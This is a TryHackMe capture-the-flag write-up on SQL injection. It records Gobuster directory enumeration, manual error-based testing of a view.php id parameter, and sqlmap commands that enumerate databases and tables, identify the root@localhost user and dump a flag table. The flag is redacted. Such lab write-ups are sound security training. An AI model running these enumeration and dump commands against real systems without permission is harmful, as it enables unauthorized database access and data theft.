






# SQLMap Challenge — TryHackMe

## Overview

This write-up documents my approach to the **SQLMap Challenge** on TryHackMe.

The objective was to identify a SQL injection vulnerability within the target web application and use SQLMap to enumerate the backend database and retrieve the flag.

> **Environment:** TryHackMe  
> **Target:** `10.48.161.182`  
> **Primary vulnerability:** SQL Injection  
> **Database:** MySQL 5.6+  
> **Primary tool:** SQLMap  
> **Supporting tools:** Gobuster, Burp Suite  

---

## 1. Reconnaissance

I began by performing directory enumeration against the target web server using Gobuster.

### Command

```bash
gobuster dir -u http://10.48.161.182/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100
```

### Result

Gobuster identified the `/blood/` directory, which returned a `301` HTTP status code.



The discovered directory provided an additional area of the web application to investigate.

---

## 2. Web Application Enumeration

After accessing the `/blood/` application, I manually explored the available functionality.

During this process, I identified the following URL:

```text
http://10.48.161.182/blood/view.php?id=1
```

The `id` parameter appeared to control which record or content was retrieved by the application.

This made the parameter a potential candidate for SQL injection testing.

---

## 3. SQL Injection Identification

I manually tested the `id` parameter by appending a single quote:

```text
?id=1'
```

The application returned a SQL syntax error:

```text
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''' at line 1
```



The error message indicated that user-controlled input was being incorporated into a SQL query and that the backend was using **MySQL**.

At this point, the `id` parameter was identified as a likely SQL injection point.

---

## 4. Capturing the Request with Burp Suite

I used Burp Suite to intercept the request generated when accessing the vulnerable endpoint.

The request was saved as:

```text
get_blood
```

This request was subsequently supplied to SQLMap using the `-r` option.

Using the captured request allowed SQLMap to reproduce the application's original request while testing the identified injection point.

---

## 5. Database Enumeration

I used SQLMap to enumerate the available databases:

```bash
sqlmap -r get_blood --dbs
```

SQLMap identified six databases:

```text
blood
information_schema
mysql
performance_schema
sys
test
```



The `blood` database appeared to be the application-specific database and was therefore selected for further enumeration.

---

## 6. Table Enumeration

I enumerated the tables within the `blood` database:

```bash
sqlmap -r get_blood -D blood --tables
```

The following tables were identified:

```text
blood_db
flag
users
```



The presence of a `flag` table indicated a likely path toward completing the challenge.

---

## 7. Database User Enumeration

I then identified the database user under which the application was operating:

```bash
sqlmap -r get_blood --current-user
```

SQLMap identified the current database user as:

```text
root@localhost
```



The application was therefore interacting with the MySQL database using the `root` account.

---

## 8. Flag Extraction

I proceeded to dump the contents of the `flag` table:

```bash
sqlmap -r get_blood -D blood -T flag --dump
```

SQLMap returned the contents of the table, including the flag entry.



The flag was successfully retrieved.

> **Flag:** `THM{REDACTED}`

The actual flag has been redacted from this public write-up.

---

## 9. Attack Chain

```text
Directory Enumeration
        ↓
/blood/ discovered
        ↓
Manual application enumeration
        ↓
view.php?id=1 identified
        ↓
Single quote appended to parameter
        ↓
MySQL syntax error
        ↓
SQL Injection identified
        ↓
Request captured with Burp Suite
        ↓
SQLMap database enumeration
        ↓
blood database identified
        ↓
Tables enumerated
        ↓
flag table identified
        ↓
Database user identified as root@localhost
        ↓
flag table dumped
        ↓
Flag obtained
```

---

## 10. Tools Used

| Tool | Purpose |
| :--- | :--- |
| **Gobuster** | Directory enumeration |
| **Burp Suite** | HTTP request interception and capture |
| **SQLMap** | SQL injection exploitation and database enumeration |
| **Firefox** | Web application interaction |

---

## 11. Key Takeaways

### Technical
* Practiced directory enumeration using Gobuster.
* Identified a SQL injection point through manual testing.
* Recognized a MySQL database from an application error message.
* Used Burp Suite to capture a raw HTTP request.
* Used SQLMap to enumerate databases and tables.
* Identified the application's current database user.
* Extracted data from a vulnerable database table.

### Methodology
A key takeaway from this challenge was the importance of **manual identification before automated exploitation**.

Rather than immediately running SQLMap against the target, I first:
1. Enumerated the application.
2. Identified the `id` parameter.
3. Tested the parameter manually.
4. Observed the SQL error.
5. Identified the likely database technology.
6. Captured the request with Burp Suite.
7. Used SQLMap for systematic enumeration and extraction.

This provided context for the automated SQL injection process and helped confirm why SQLMap was an appropriate tool for the next stage.

---

## 12. Conclusion

The target web application contained a SQL injection vulnerability in the `id` parameter of `view.php`.

The vulnerability allowed database enumeration and access to the application database. Using SQLMap, the `blood` database and its tables were enumerated, the database user was identified as `root@localhost`, and the contents of the `flag` table were successfully extracted.

The challenge demonstrated a complete SQL injection workflow from **reconnaissance and manual vulnerability identification through automated exploitation and data extraction**.
